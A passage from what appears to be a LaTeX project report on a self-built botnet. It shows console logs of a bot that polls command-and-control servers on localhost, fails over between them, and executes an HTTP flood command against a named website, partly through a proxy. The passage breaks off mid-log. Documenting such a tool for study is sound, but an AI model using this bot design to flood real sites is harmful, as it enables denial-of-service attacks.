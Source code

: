 followed by a command \texttt{REPORT} to send the bot report to the controller, and a command \texttt{KILL} shutdown the bot, respectively.
The following is the console output\footnote{classes and methods name indicated in \ref{sec:logging} have been omitted for better page formatting.}:

\begin{verbatim}
  18:03:59.537 [main] INFO Bot initialized with ID=20-68-9D-C3-76-EB-5261@debian
  18:03:59.540 [main] INFO Joining botnet...
  18:03:59.541 [main] INFO Loading bot configuration
               from C&C at http://localhost:4000/init...
  18:03:59.549 [main] WARN Cannot connect to C&C at http://localhost:4000/init,
               waiting for reconnection...
  18:03:59.551 [main] INFO Waiting for polling 2 SECONDS...
  18:04:01.552 [main] INFO Loading bot configuration
               from C&C at http://localhost:4000/init...
  18:04:01.553 [main] WARN Cannot connect to C&C at http://localhost:4000/init,
               waiting for reconnection...
  18:04:01.554 [main] INFO Waiting for polling 3 SECONDS...
  18:04:04.555 [main] INFO Loading bot configuration
               from C&C at http://localhost:4000/init...
  18:04:04.556 [main] WARN Cannot connect to C&C at http://localhost:4000/init,
               waiting for reconnection...
  18:04:04.557 [main] INFO Waiting for polling 2 SECONDS...
  18:04:06.557 [main] INFO Loading bot configuration
               from C&C at http://localhost:4000/init...
  18:04:06.559 [main] WARN Maximum number of reconnections reached
               for C&C at http://localhost:4000/init
  18:04:06.559 [main] INFO Loading bot configuration
               from C&C at http://localhost:3000/init...
  18:04:06.668 [main] INFO Bot is up and running
  18:04:06.755 [main] INFO Received command ATTACK_HTTPFLOOD
               with params {attacks=[
               HttpFloodAttack(method=GET, target=http://www.gmarciani.com,
               proxy=null, header={},
               executions=1, period=null),
               HttpFloodAttack(method=GET, target=http://www.gmarciani.com,
               proxy=31.220.56.101:80, header={User-Agent=MyAwesomeBot},
               executions=3, period=10-15:SECONDS)]}
               from C&C at http://localhost:3000/init
  18:04:06.756 [main] INFO Executing command ATTACK_HTTPFLOOD
               with params {attacks=[
               HttpFloodAttack(method=GET, target=http://www.gmarciani.com,
               proxy=null, header={},
               executions=1, period=null),
               HttpFloodAttack(method=GET, target=http://www.gmarciani.com,

\end{verbatim}
